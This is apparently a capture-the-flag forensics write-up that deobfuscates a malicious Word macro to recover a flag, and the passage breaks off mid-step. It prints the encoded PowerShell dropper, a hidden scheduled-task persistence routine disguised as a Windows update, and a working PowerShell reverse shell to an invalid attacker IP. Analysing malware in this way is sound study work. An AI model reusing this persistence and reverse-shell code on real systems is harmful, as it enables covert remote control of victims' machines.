

# Invitation ✉
_We were given [this](forensics_invitation.zip) Microsoft word file with **.docm** file extension._

Basically, Microsoft fies with __.*x__ extension like **.docx**, **.pptx**, **.xlsx**, etc are compressed files, that means they can be opened with any zip archive software. Since, the extension is **.docm**, it clearly shows that it contains macros.  


A malicious code (generally in VBA) can be hidden inside these files.

## Solution
*My first step was to extract macros form this file. We can use oletools but I will be using an online tool called [OnlineHashCrack](https://www.onlinehashcrack.com/tools-online-extract-vba-from-office-word-excel.php).*



As I scroll through, I only see random function and variable names and it was obvious that the code was obfuscated. You can find the original file [here](sources/original.txt). I replaced the random variable and function names to more readable format. You can find the readable file [here](macro.txt).

```v
x = Shell(some_func("50") & 
some_func("4f5745525348454c4c2e6578") & 
some_func("65202d6e6f65786974202d772068696464") & 
some_func("656e202d656e6320") & 
str1 & str2 & str3 & str4, 1)
```

*Now I tried to debug the code using an online debugger ([tutorialspoint.com](https://www.tutorialspoint.com/compile_vb.net_online.php)), then I printed the final command that was to be executed :*


After decoding this I got this huge statement :

```powershell
POWERSHELL.exe -noexit -w hidden -enc 
LgAgACgAIAAkAFAAcwBoAG8AbQBFAFsANABdACsAJABwAHMAaABvAE0AZQBbADMAMABdACsAJwB4ACcAKQAgACgAIABbAHMAdAByAGkAbgBHAF0AOgA6AGoAbwBpAG4AKAAnACcAIAAsACAAKABbAFIARQBHAGUAWABdADoAOgBNAGEAVABDAEgARQBTACgAIAAiACkAJwB4ACcAKwBdADMAMQBbAEQASQBsAEwAZQBIAHMAJAArAF0AMQBbAEQAaQBMAEwAZQBoAHMAJAAgACgAJgB8ACAAKQA0ADMAXQBSAEEAaABjAFsAXQBHAG4ASQBSAFQAcwBbACwAJwB0AFgAagAnACgAZQBDAEEATABQAEUAUgAuACkAJwAkACcALAAnAHcAcQBpACcAKABlAEMAQQBMAFAARQBSAC4AKQAnADsAdABYACcAKwAnAGoAZQByAGEAXwBzAGMAbwBkAGwAYQBtACcAKwAnAHsAQgAnACsAJwBUACcAKwAnAEgAQwB0AFgAagAgACcAKwAnAD0AIABwACcAKwAnAGcAZQByAHcAcQBpACcAKAAiACAALAAnAC4AJwAgACwAJwBSACcAKwAnAGkARwBIAFQAdABPAGwAJwArACcAZQBmAHQAJwAgACkAIAB8ACAARgBvAFIARQBhAEMASAAtAE8AQgBKAGUAYwBUACAAewAkAF8ALgBWAEEATABVAEUAfQAgACkAKQAgACAAKQAKAAoACgAkAHAAYQB5AGwAbwBhAGQAQgBhAHMAZQA2ADQAIAA9ACAAIgBKAEEAQgBqAEEARwB3AEEAYQBRAEIAbABBAEcANABBAGQAQQBBAGcAQQBEADAAQQBJAEEAQgBPAEEARwBVAEEAZAB3AEEAdABBAEUAOABBAFkAZwBCAHEAQQBHAFUAQQBZAHcAQgAwAEEAQwBBAEEAVQB3AEIANQBBAEgATQBBAGQAQQBCAGwAQQBHADAAQQBMAGcAQgBPAEEARwBVAEEAZABBAEEAdQBBAEYATQBBAGIAdwBCAGoAQQBHAHMAQQBaAFEAQgAwAEEASABNAEEATABnAEIAVQBBAEUATQBBAFUAQQBCAEQAQQBHAHcAQQBhAFEAQgBsAEEARwA0AEEAZABBAEEAbwBBAEMASQBBAE0AUQBBADUAQQBEAFkAQQBMAGcAQQB5AEEARABNAEEATQB3AEEAegBBAEMANABBAE4AUQBBADAAQQBDADQAQQBNAGcAQQBpAEEAQwB3AEEATgBBAEEAMABBAEQAUQBBAE4AQQBBAHAAQQBEAHMAQQBKAEEAQgB6AEEASABRAEEAYwBnAEIAbABBAEcARQBBAGIAUQBBAGcAQQBEADAAQQBJAEEAQQBrAEEARwBNAEEAYgBBAEIAcABBAEcAVQBBAGIAZwBCADAAQQBDADQAQQBSAHcAQgBsAEEASABRAEEAVQB3AEIAMABBAEgASQBBAFoAUQBCAGgAQQBHADAAQQBLAEEAQQBwAEEARABzAEEAVwB3AEIAaQBBAEgAawBBAGQAQQBCAGwAQQBGAHMAQQBYAFEAQgBkAEEAQwBRAEEAWQBnAEIANQBBAEgAUQBBAFoAUQBCAHoAQQBDAEEAQQBQAFEAQQBnAEEARABBAEEATABnAEEAdQBBAEQAWQBBAE4AUQBBADEAQQBEAE0AQQBOAFEAQgA4AEEAQwBVAEEAZQB3AEEAdwBBAEgAMABBAE8AdwBCADMAQQBHAGcAQQBhAFEAQgBzAEEARwBVAEEASwBBAEEAbwBBAEMAUQBBAGEAUQBBAGcAQQBEADAAQQBJAEEAQQBrAEEASABNAEEAZABBAEIAeQBBAEcAVQBBAFkAUQBCAHQAQQBDADQAQQBVAGcAQgBsAEEARwBFAEEAWgBBAEEAbwBBAEMAUQBBAFkAZwBCADUAQQBIAFEAQQBaAFEAQgB6AEEAQwB3AEEASQBBAEEAdwBBAEMAdwBBAEkAQQBBAGsAQQBHAEkAQQBlAFEAQgAwAEEARwBVAEEAYwB3AEEAdQBBAEUAdwBBAFoAUQBCAHUAQQBHAGMAQQBkAEEAQgBvAEEAQwBrAEEASwBRAEEAZwBBAEMAMABBAGIAZwBCAGwAQQBDAEEAQQBNAEEAQQBwAEEASABzAEEATwB3AEEAawBBAEcAUQBBAFkAUQBCADAAQQBHAEUAQQBJAEEAQQA5AEEAQwBBAEEASwBBAEIATwBBAEcAVQBBAGQAdwBBAHQAQQBFADgAQQBZAGcAQgBxAEEARwBVAEEAWQB3AEIAMABBAEMAQQBBAEwAUQBCAFUAQQBIAGsAQQBjAEEAQgBsAEEARQA0AEEAWQBRAEIAdABBAEcAVQBBAEkAQQBCAFQAQQBIAGsAQQBjAHcAQgAwAEEARwBVAEEAYgBRAEEAdQBBAEYAUQBBAFoAUQBCADQAQQBIAFEAQQBMAGcAQgBCAEEARgBNAEEAUQB3AEIASgBBAEUAawBBAFIAUQBCAHUAQQBHAE0AQQBiAHcAQgBrAEEARwBrAEEAYgBnAEIAbgBBAEMAawBBAEwAZwBCAEgAQQBHAFUAQQBkAEEAQgBUAEEASABRAEEAYwBnAEIAcABBAEcANABBAFoAdwBBAG8AQQBDAFEAQQBZAGcAQgA1AEEASABRAEEAWgBRAEIAegBBAEMAdwBBAE0AQQBBAHMAQQBDAEEAQQBKAEEAQgBwAEEAQwBrAEEATwB3AEEAawBBAEgATQBBAFoAUQBCAHUAQQBHAFEAQQBZAGcAQgBoAEEARwBNAEEAYQB3AEEAZwBBAEQAMABBAEkAQQBBAG8AQQBHAGsAQQBaAFEAQgA0AEEAQwBBAEEASgBBAEIAawBBAEcARQBBAGQAQQBCAGgAQQBDAEEAQQBNAGcAQQArAEEAQwBZAEEATQBRAEEAZwBBAEgAdwBBAEkAQQBCAFAAQQBIAFUAQQBkAEEAQQB0AEEARgBNAEEAZABBAEIAeQBBAEcAawBBAGIAZwBCAG4AQQBDAEEAQQBLAFEAQQA3AEEAQwBRAEEAYwB3AEIAbABBAEcANABBAFoAQQBCAGkAQQBHAEUAQQBZAHcAQgByAEEARABJAEEASQBBAEEAZwBBAEQAMABBAEkAQQBBAGsAQQBIAE0AQQBaAFEAQgB1AEEARwBRAEEAWQBnAEIAaABBAEcATQBBAGEAdwBBAGcAQQBDAHMAQQBJAEEAQQBpAEEARgBBAEEAVQB3AEEAZwBBAEMASQBBAEkAQQBBAHIAQQBDAEEAQQBLAEEAQgB3AEEASABjAEEAWgBBAEEAcABBAEMANABBAFUAQQBCAGgAQQBIAFEAQQBhAEEAQQBnAEEAQwBzAEEASQBBAEEAaQBBAEQANABBAEkAQQBBAGkAQQBEAHMAQQBKAEEAQgB6AEEARwBVAEEAYgBnAEIAawBBAEcASQBBAGUAUQBCADAAQQBHAFUAQQBJAEEAQQA5AEEAQwBBAEEASwBBAEIAYgBBAEgAUQBBAFoAUQBCADQAQQBIAFEAQQBMAGcAQgBsAEEARwA0AEEAWQB3AEIAdgBBAEcAUQBBAGEAUQBCAHUAQQBHAGMAQQBYAFEAQQA2AEEARABvAEEAUQBRAEIAVABBAEUATQBBAFMAUQBCAEoAQQBDAGsAQQBMAGcAQgBIAEEARwBVAEEAZABBAEIAQwBBAEgAawBBAGQAQQBCAGwAQQBIAE0AQQBLAEEAQQBrAEEASABNAEEAWgBRAEIAdQBBAEcAUQBBAFkAZwBCAGgAQQBHAE0AQQBhAHcAQQB5AEEAQwBrAEEATwB3AEEAawBBAEgATQBBAGQAQQBCAHkAQQBHAFUAQQBZAFEAQgB0AEEAQwA0AEEAVgB3AEIAeQBBAEcAawBBAGQAQQBCAGwAQQBDAGcAQQBKAEEAQgB6AEEARwBVAEEAYgBnAEIAawBBAEcASQBBAGUAUQBCADAAQQBHAFUAQQBMAEEAQQB3AEEAQwB3AEEASgBBAEIAegBBAEcAVQBBAGIAZwBCAGsAQQBHAEkAQQBlAFEAQgAwAEEARwBVAEEATABnAEIATQBBAEcAVQBBAGIAZwBCAG4AQQBIAFEAQQBhAEEAQQBwAEEARABzAEEASgBBAEIAegBBAEgAUQBBAGMAZwBCAGwAQQBHAEUAQQBiAFEAQQB1AEEARQBZAEEAYgBBAEIAMQBBAEgATQBBAGEAQQBBAG8AQQBDAGsAQQBmAFEAQQA3AEEAQwBRAEEAWQB3AEIAcwBBAEcAawBBAFoAUQBCAHUAQQBIAFEAQQBMAGcAQgBEAEEARwB3AEEAYgB3AEIAegBBAEcAVQBBAEsAQQBBAHAAQQBBAD0APQAiADsACgAKAAoAUwBFAHQAIAAoACIARwA4ACIAKwAiAGgAIgApACAAIAAoACAAIAAiACAAKQAgACkANgAzAF0AUgBhAGgAYwBbACwAJwByAGEAWgAnAEUAYwBhAGwAUABlAFIALQAgACAANAAzAF0AUgBhAGgAYwBbACwAKQAwADUAXQBSAGEAaABjAFsAKwA4ADcAXQBSAGEAaABjAFsAKwA5ADQAXQBSAGEAaABjAFsAKAAgACAAZQBDAEEAbABwAEUAUgBjAC0AIAAgACkAJwA7ADIAJwArACcATgAnACsAJwAxACcAKwAnAH0AYQB0AGUAbQBfAHcAZQAnACsAJwBuAF8AZQBoAHQAJwArACcAXwAyAE4AMQAgAD0AIABuACcAKwAnAGcAZQByAHIAJwArACcAYQBaACcAKAAoACAAKAAgACkAJwAnAG4AaQBPAGoALQAnAHgAJwArAF0AMwAsADEAWwApACgARwBOAGkAcgBUAFMAbwB0AC4ARQBjAE4AZQByAGUARgBlAFIAcABFAHMATwBCAFIARQB2ACQAIAAoACAALgAgACIAIAAgACkAIAA7AC0AagBPAEkAbgAgACgAIABsAFMAIAAoACIAVgBBAFIAIgArACIASQBhAEIAIgArACIATABFADoAZwAiACsAIgA4AEgAIgApACAAIAApAC4AVgBBAEwAdQBlAFsAIAAtACAAMQAuAC4AIAAtACAAKAAgACgAIABsAFMAIAAoACIAVgBBAFIAIgArACIASQBhAEIAIgArACIATABFADoAZwAiACsAIgA4AEgAIgApACAAIAApAC4AVgBBAEwAdQBlAC4ATABlAG4AZwB0AEgAKQBdACAAfAAgAEkAZQBYACAACgAKAEEAZABkAC0AVAB5AHAAZQAgAC0ATgBhAG0AZQAgAFcAaQBuAGQAbwB3ACAALQBOAGEAbQBlAHMAcABhAGMAZQAgAEMAbwBuAHMAbwBsAGUAIAAtAE0AZQBtAGIAZQByAEQAZQBmAGkAbgBpAHQAaQBvAG4AIAAnAAoAWwBEAGwAbABJAG0AcABvAHIAdAAoACIASwBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgApAF0ACgBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEcAZQB0AEMAbwBuAHMAbwBsAGUAVwBpAG4AZABvAHcAKAApADsACgAKAFsARABsAGwASQBtAHAAbwByAHQAKAAiAHUAcwBlAHIAMwAyAC4AZABsAGwAIgApAF0ACgBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAUwBoAG8AdwBXAGkAbgBkAG8AdwAoAEkAbgB0AFAAdAByACAAaABXAG4AZAAsACAASQBuAHQAMwAyACAAbgBDAG0AZABTAGgAbwB3ACkAOwAKACcAOwAKAFsAQwBvAG4AcwBvAGwAZQAuAFcAaQBuAGQAbwB3AF0AOgA6AFMAaABvAHcAVwBpAG4AZABvAHcAKABbAEMAbwBuAHMAbwBsAGUALgBXAGkAbgBkAG8AdwBdADoAOgBHAGUAdABDAG8AbgBzAG8AbABlAFcAaQBuAGQAbwB3ACgAKQAsACAAMAApADsACgAKAAoAaQBmACAAKAAkAHAAYQB5AGwAbwBhAGQAQgBhAHMAZQA2ADQAIAAtAG0AYQB0AGMAaAAgACIAaAB0AHQAcAA6AHwAaAB0AHQAcABzADoAIgApACAAewAKACAAIAAgACAAJABwAGEAeQBsAG8AYQBkAEIAYQBzAGUANgA0ACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgACIATgBlAHQALgBXAGUAYgBjAGwAaQBlAG4AdAAiACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAkAHAAYQB5AGwAbwBhAGQAQgBhAHMAZQA2ADQAKQA7AAoAfQAKAAoAJABpAG4AcwB0AGEAbABsAGUAZAAgAD0AIABHAGUAdAAtAEkAdABlAG0AUAByAG8AcABlAHIAdAB5ACAALQBQAGEAdABoACAAIgBIAEsAQwBVADoAXABTAG8AZgB0AHcAYQByAGUAXAAkACgAJAByAGUAZwBwACkAIgAgAC0ATgBhAG0AZQAgACIAJAAoACQAcgBlAGcAbgApACIAIAAtAGUAYQAgAFMAaQBsAGUAbgB0AGwAeQBDAG8AbgB0AGkAbgB1AGUAOwAKAAoACgBpAGYAIAAoACQAaQBuAHMAdABhAGwAbABlAGQAKQAgAHsACgAKAAoAIAAgACAAIABpAGYAIAAoACQAaQBuAHMAdABhAGwAbABlAGQAIAAtAG4AZQAgACQAcABhAHkAbABvAGEAZABCAGEAcwBlADYANAApACAAewAKACAAIAAgACAAIAAgACAAIABTAGUAdAAtAEkAdABlAG0AUAByAG8AcABlAHIAdAB5ACAALQBQAGEAdABoACAAIgBIAEsAQwBVADoAXABTAG8AZgB0AHcAYQByAGUAXAAkACgAJAByAGUAZwBwACkAIgAgAC0ATgBhAG0AZQAgACIAJAAoACQAcgBlAGcAbgApACIAIAAtAEYAbwByAGMAZQAgAC0AVgBhAGwAdQBlACAAJABwAGEAeQBsAG8AYQBkAEIAYQBzAGUANgA0ADsACgAgACAAIAAgAH0ACgAKACMAIABpAG4AcwB0AGEAbABsAGEAdABpAG8AbgAKAH0AIABlAGwAcwBlACAAewAKACAAIAAgACAACgAKACAAIAAgACAAaQBmACAAKAAkAEYAQQBMAFMARQAgAC0AZQBxACAAKABUAGUAcwB0AC0AUABhAHQAaAAgAC0AUABhAHQAaAAgACIASABLAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAJAAoACQAcgBlAGcAcAApAFwAIgApACkAIAB7AAoAIAAgACAAIAAgACAAIAAgAE4AZQB3AC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACIASABLAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAJAAoACQAcgBlAGcAcAApACIAOwAKACAAIAAgACAAfQAKACAAIAAgACAAUwBlAHQALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAC0AUABhAHQAaAAgACIASABLAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAJAAoACQAcgBlAGcAcAApACIAIAAtAE4AYQBtAGUAIAAiACQAKAAkAHIAZQBnAG4AKQAiACAALQBGAG8AcgBjAGUAIAAtAFYAYQBsAHUAZQAgACQAcABhAHkAbABvAGEAZABCAGEAcwBlADYANAA7AAoAIAAgACAAIAAKACAAIAAgACAACgAgACAAIAAgACQAdQAgAD0AIABbAEUAbgB2AGkAcgBvAG4AbQBlAG4AdABdADoAOgBVAHMAZQByAE4AYQBtAGUAOwAKACAAIAAgACAACgAgACAAIAAgAAoAIAAgACAAIAAkAHQAYQBzAGsAIAA9ACAARwBlAHQALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrACAALQBUAGEAcwBrAE4AYQBtAGUAIAAiACQAKAAkAHIAZQBnAHAAKQAkACgAJAByAGUAZwBuACkAIgAgAC0AZQBhACAAUwBpAGwAZQBuAHQAbAB5AEMAbwBuAHQAaQBuAHUAZQA7AAoAIAAgACAAIABpAGYAIAAoACQAdABhAHMAawApACAAewAKACAAIAAgACAAIAAgACAAIABVAG4AcgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAkACgAJAByAGUAZwBwACkAJAAoACQAcgBlAGcAbgApACIAIAAtAEMAbwBuAGYAaQByAG0AOgAkAGYAYQBsAHMAZQA7AAoAIAAgACAAIAB9AAoAIAAgACAAIAAKACAAIAAgACAACgAgACAAIAAgACQAYQAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAiACAAIgAtAHcAIABoAGkAZABkAGUAbgAgAC0ARQB4AGUAYwB1AHQAaQBvAG4AUABvAGwAaQBjAHkAIABCAHkAcABhAHMAcwAgAC0AbgBvAHAAIAAtAE4AbwBFAHgAaQB0ACAALQBDACAAVwByAGkAdABlAC0AaABvAHMAdAAgACcAVwBpAG4AZABvAHcAcwAgAHUAcABkAGEAdABlACAAcgBlAGEAZAB5ACcAOwAgAGkAZQB4ACAAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAKABHAGUAdAAtAEkAdABlAG0AUAByAG8AcABlAHIAdAB5ACAASABLAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAJAAoACQAcgBlAGcAcAApACkALgAkACgAJAByAGUAZwBuACkAKQApACkAOwAiADsACgAgACAAIAAgACQAdAAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0AQQB0AEwAbwBnAE8AbgAgAC0AVQBzAGUAcgAgACIAJAAoACQAdQApACIAOwAKACAAIAAgACAAJABwACAAPQAgAE4AZQB3AC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawBQAHIAaQBuAGMAaQBwAGEAbAAgACIAJAAoACQAdQApACIAOwAKACAAIAAgACAAJABzACAAPQAgAE4AZQB3AC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawBTAGUAdAB0AGkAbgBnAHMAUwBlAHQAIAAtAEgAaQBkAGQAZQBuADsACgAgACAAIAAgACQAZAAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAIAAtAEEAYwB0AGkAbwBuACAAJABhACAALQBUAHIAaQBnAGcAZQByACAAJAB0ACAALQBQAHIAaQBuAGMAaQBwAGEAbAAgACQAcAAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzADsACgAgACAAIAAgAFIAZQBnAGkAcwB0AGUAcgAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAIAAiACQAKAAkAHIAZQBnAHAAKQAkACgAJAByAGUAZwBuACkAIgAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJABkADsACgB9AAoACgAKAGkAZQB4ACAAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAJABwAGEAeQBsAG8AYQBkAEIAYQBzAGUANgA0ACkAKQApADsACgAKAA==
```

As we can see that it is opening powershell and trying to execute this whole base64 encoded command. 
Then I used an online [base64 decoder](base64decode.org) which gave me this : 

```powershell
. ( $PshomE[4]+$pshoMe[30]+'x') ( [strinG]::join('' , ([REGeX]::MaTCHES( ")'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(eCALPER.)'$','wqi'(eCALPER.)';tX'+'jera_scodlam'+'{B'+'T'+'HCtXj '+'= p'+'gerwqi'(" ,'.' ,'R'+'iGHTtOl'+'eft' ) | FoREaCH-OBJecT {$_.VALUE} ))  )

$payloadBase64 = "JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADYALgAyADMAMwAzAC4ANQA0AC4AMgAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==";

SEt ("G8"+"h")  (  " ) )63]Rahc[,'raZ'EcalPeR-  43]Rahc[,)05]Rahc[+87]Rahc[+94]Rahc[(  eCAlpERc-  )';2'+'N'+'1'+'}atem_we'+'n_eht'+'_2N1 = n'+'gerr'+'aZ'(( ( )''niOj-'x'+]3,1[)(GNirTSot.EcNereFeRpEsOBREv$ ( . "  ) ;-jOIn ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue[ - 1.. - ( ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue.LengtH)] | IeX 
Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();
[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
';
[Console.Window]::ShowWindow([Console.Window]::GetConsoleWindow(), 0);
if ($payloadBase64 -match "http:|https:") {
    $payloadBase64 = (New-Object "Net.Webclient").DownloadString($payloadBase64);
}
$installed = Get-ItemProperty -Path "HKCU:\Software\$($regp)" -Name "$($regn)" -ea SilentlyContinue;
if ($installed) {
    if ($installed -ne $payloadBase64) {
        Set-ItemProperty -Path "HKCU:\Software\$($regp)" -Name "$($regn)" -Force -Value $payloadBase64;
    }
# installation
} else {
    if ($FALSE -eq (Test-Path -Path "HKCU:\Software\$($regp)\")) {
        New-Item -Path "HKCU:\Software\$($regp)";
    }
    Set-ItemProperty -Path "HKCU:\Software\$($regp)" -Name "$($regn)" -Force -Value $payloadBase64;
    $u = [Environment]::UserName;
    $task = Get-ScheduledTask -TaskName "$($regp)$($regn)" -ea SilentlyContinue;
    if ($task) {
        Unregister-ScheduledTask -TaskName "$($regp)$($regn)" -Confirm:$false;
    }
    
    $a = New-ScheduledTaskAction -Execute "powershell.exe" "-w hidden -ExecutionPolicy Bypass -nop -NoExit -C Write-host 'Windows update ready'; iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Get-ItemProperty HKCU:\Software\$($regp)).$($regn))));";
    $t = New-ScheduledTaskTrigger -AtLogOn -User "$($u)";
    $p = New-ScheduledTaskPrincipal "$($u)";
    $s = New-ScheduledTaskSettingsSet -Hidden;
    $d = New-ScheduledTask -Action $a -Trigger $t -Principal $p -Settings $s;
    Register-ScheduledTask "$($regp)$($regn)" -InputObject $d;
}

iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($payloadBase64)));
```

*Again, there was another layer of obfuscation by adding more base46 encoded data. Decoding the value of the payload we get :* 

```powershell
$client = New-Object System.Net.Sockets.TCPClient("196.2333.54.2",4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()
```

We can clearly see that the code is trying to create a reverse shell to the attacker (in our case, IP is invalid, obviously.). But, still we do not get the flag : (


*Then I got back to initial code and try to debug the first line.*
```powershell
. ( $PshomE[4]+$pshoMe[30]+'x') ( [strinG]::join('' , ([REGeX]::MaTCHES( ")'x'+]31[DIlLeHs$+]1[DiLLehs$ (&|
)43]RAhc[]GnIRTs[,'tXj'(eCALPER.)'$','wqi'(eCALPER.)';tX'+'jera_scodlam'+'{B'+'T'+'HCtXj '+'= p'+'gerwqi'(" ,'.' ,'R'+'iGHTtOl'+'eft' ) | 
FoREaCH-OBJecT {$_.VALUE} ))  )
```

*As we remove unnecessary "+" and letter caps we instantly we see `righttoleft` method. We can use python to reverse the string.*

```python
x = ")'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(ecalper.)'$','wqi'(ecalper.)';tXjera_scodlam{BTHCtXj = pgerwqi'("

print(x[::-1])
```

*Again by replacing unnecessary caps and "+" we get:*

`"('iqwregp = jXtCHTB{maldocs_arejXt;').replace('iqw','$').replace('jXt',[string][char]34) |&( $shellid[1]+$shellid[13]+'x')"`

*We start to see our flag and by again debugging unnecessary replace we get:*

```powershell
`"('$regp = jXtCHTB{maldocs_arejXt;').replace('jXt',[string][char]34) |&('iex')"`
```

> Flag 1 : CHTB{maldocs_are

*Similarly, I simplified this command :*

```powershell
SEt ("G8"+"h")  (  
